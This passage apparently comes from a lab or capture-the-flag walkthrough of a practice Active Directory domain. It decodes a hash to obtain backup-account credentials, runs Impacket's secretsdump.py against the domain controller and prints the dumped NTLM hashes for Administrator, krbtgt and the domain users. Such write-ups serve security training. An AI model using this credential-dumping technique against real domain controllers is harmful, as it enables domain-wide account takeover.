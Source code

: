 We'll try to decode the hash using [CyberChef](https://gchq.github.io/CyberChef/)

[![](images/image-34-1024x770.png)](http://localhost/wordpress/wp-content/uploads/2022/07/image-34.png)

We have new credentials for backup. backup@spookysec.local:\*\*\*\*\*\*\*\*\*\*

Backup allows all user hashes to be synced with the user account.

We'll abuse this by dumping all the hashes.

secretsdump.py spookysec.local/backup:\*\*\*\*\*\*\*\*\*@10.10.85.196

Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

\[-\] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc\_s\_access\_denied 
\[\*\] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
\[\*\] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::